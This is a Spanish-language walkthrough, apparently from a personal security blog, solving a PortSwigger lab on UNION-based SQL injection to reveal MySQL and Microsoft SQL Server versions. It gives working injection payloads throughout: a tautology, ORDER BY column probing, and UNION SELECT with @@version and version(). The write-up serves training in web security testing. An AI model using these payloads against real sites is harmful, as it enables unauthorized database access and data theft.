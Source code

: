 ```yaml
---
title: SQL injection attack, querying the database type and version on MySQL and Microsoft
description: Laboratorio de Portswigger sobre SQLI
date: 2024-11-13 12:34:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - SQLI
tags:
  - Portswigger Labs
  - SQLI (Error Based)
  - SQL injection attack, querying the database type and version on MySQL and Microsoft
  - Microsoft SQL Server
  - MySQL
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este laboratorio contiene una `vulnerabilidad` de `inyección SQL` en el `filtro` de `categoría` de `productos`. Hay que utilizar un `ataque UNION` para `recuperar` los `resultados` de la consulta, para `resolver` el `laboratorio` debemos `mostrar` la `versión` de la `base` de `datos`

---

## Guía de SQLI

`Antes` de `completar` este `laboratorio` es recomendable `leerse` esta `guía de SQLI` [https://justice-reaper.github.io/posts/SQLI-Guide/](https://justice-reaper.github.io/posts/SQLI-Guide/)

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/SQLI-Lab-4/image_1.png)

`Pinchamos` en alguna de las `categorías`, `capturamos` la `petición` con `Burpsuite` y le `añadimos` una `'` a `category`

![](/assets/img/SQLI-Lab-4/image_2.png)

Si `enviamos` la `petición` nos dará un `Internal Server Error` debido a que hemos logrado `interferir` con la `consulta SQL` que se está haciendo

![](/assets/img/SQLI-Lab-4/image_3.png)

Si usamos este `payload`, ya habremos `solucionado` el `error` que se estaba produciendo en la `consulta SQL` y se mostrará lo siguiente

```
/filter?category=Gifts'+or+1=1+--+-+
```

![](/assets/img/SQLI-Lab-4/image_4.png)

Esto se debe a que la `consulta SQL` que se debe estar haciendo debe ser esta

```
SELECT * FROM products WHERE category = 'Gifts'
```

Lo que hacemos cuando inyectamos `' or 1=1-- - ` es cerrar la `'` del campo `category` y usar `or 1=1` para que siempre sea verdad y por lo tanto exista, posteriormente con `-- - ` lo que hacemos es `ignorar` el resto de la `query`

```
SELECT * FROM products WHERE category = 'Gifts' OR 1=1 -- - '
```

Usando `order by` podemos `identificar` cuantas `columnas` tiene la `tabla`, si ponemos un `número` de `columnas` que `existe` no obtendremos `ningún error`

```
/filter?category=Gifts'order+by+2--+-+
```

![](/assets/img/SQLI-Lab-4/image_5.png)

Sin embargo. si ponemos un `número` de `columnas` que `no existe`, obtendremos un `error`, esto es debido a que estamos ante una `SQLI Error Based`

```
/filter?category=Gifts'order+by+3--+-+
```

![](/assets/img/SQLI-Lab-4/image_6.png)

A continuación usamos `union select` para señalar ambos campos, debido a que la `query` no ha dado ningún `error`, podemos `descartar` que el tipo de base de datos sea `Oracle`. Si fuera `Oracle` daría un error debido a que hay que añadir `from dual` al `union select`

```
/filter?category=Gifts'+union+select+null,null--+-+
```

Con `@@version` podemos `enumerar` la `versión` de las `bases` de `datos` de `Microsoft` y las `MySQL`

```
/filter?category=Gifts'+union+select+null,@@version--+-+
```

![](/assets/img/SQLI-Lab-4/image_7.png)

También es posible `enumerar` las bases de datos `MySQL` usando `version()` en ciertos casos

```
/filter?category=Gifts'+union+select+null,version()--+-+
```

![](/assets/img/SQLI-Lab-4/image_8.png)
